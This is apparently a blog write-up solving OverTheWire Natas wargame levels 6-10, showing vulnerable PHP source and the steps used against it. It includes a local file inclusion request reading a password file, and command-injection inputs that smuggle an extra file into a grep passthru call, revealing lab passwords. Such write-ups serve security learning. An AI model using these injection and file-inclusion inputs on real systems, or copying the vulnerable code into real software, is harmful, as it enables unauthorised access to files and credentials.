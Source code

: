 ```yaml
---
layout: post
title: "OverTheWire: Natas 6-10"
date: 2016-10-30 12:00:00
share: true
comments: true
tags: overthewire natas
---
```


_Many challenges from now on will show you the source code behind it.Some of these implementations are quite similar to what is actually used in production, so it's both valuable to know how they work as well as how you can exploit them._


## Natas 6

In this level you need to submit a secret password, going through the source code you'll realize it's stored in [includes/secret.inc]( http://natas6.natas.labs.overthewire.org/includes/secret.inc).
But why is it shown as blank? Check the source code, you'll realize it's stored in PHP tags.

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

Submitting the secret keyword in the form will reveal our next password.

![7]({{ site.baseurl}}/images/7.png)

___________________________________________

## Natas 7

2 pages beside the index page exist, `Home` and `About`. They don't seem
to be particularly useful but the way the url is constructed [definitely
is](https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion). You'll
also notice a hint in both pages in the source code:

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

You may have realized already that this is a `local file inclusion` vulnerability, if not check the OWASP link previously mentioned. LFI is one of many web application vulnerabilities where the parameters are not properly sanitized. The url is in the following format:
```
http://natas7.natas.labs.overthewire.org/index.php?page=filename
```

Code behind it possibly looks like this:

```php
<?php
$file = $_GET['page'];

if(isset($file))
{
    include($file);
}
else
{
    include("index.php");
}
?>
```

A simple request with the full path of the password file will do.

Hitting `http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`
will reveal the password.

___________________________________________

## Natas 8

```php
<?

$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
    print "Access granted. The password for natas9 is <censored>";
    } else {
    print "Wrong secret";
    }
}
?>

```

In this challenge we need to submit a secret pass which should match the string `$encodedSecret`. One approach is to brute force the solution till it works (BAD!), the more obvious one is reversing whatever the `encodedSecret` method does.

Fire up a terminal with PHP installed, let's write the code for the reverse
function:

```console
root@kali:~# php -r '$passKey=base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362")));echo $passKey;'
oubWYf2kBqr
```

Submitting "oubWYf2kBqr" in the form will reveal the password.

![8]({{ site.baseurl}}/images/8.png)

___________________________________________

## Natas 9

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

[`passthru`](http://php.net/manual/en/function.passthru.php) is one of the PHP functions that allows executing commands along with [`exec`](http://php.net/manual/en/function.exec.php) and [`system`](http://php.net/manual/en/function.system.php). Try entering any
character and you'll notice it's just grepping it from a dictionary.txt file.

As we know from earlier, passwords are in `/etc/natas_webpass/natasX`, where X is the level number. So we want it to run grep against `/etc/natas_webpass/natas10`. How do we make this command behave the way we want it to? By code injection.

Using the pound symbol # allows us to terminate a bash command, example below:

```console
root@kali:~/Documents# ls
emptyfile
root@kali:~/Documents# whoami
root
root@kali:~/Documents# ls # whoami
emptyfile
root@kali:~/Documents# whoami # ls
root
```

By sending a random character (hoping it's in the password) followed by the file we want to read and a pound key will do.

Input: `a /etc/natas_webpass/natas10 #`

___________________________________________

## Natas 10

This challenge is quite similar to Natas 9, except that we can't use many
special characters.

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

Fortunately, our same exact approach works in this example too.

1. **Input**: `a /etc/natas_webpass/natas11 #`
**Output**: _empty_

2. **Input**: `b /etc/natas_webpass/natas11 #`
**Output**: _empty_

3. **Input**: `c /etc/natas_webpass/natas11 #`
**Output**: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

Sweet, the password is `U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK`.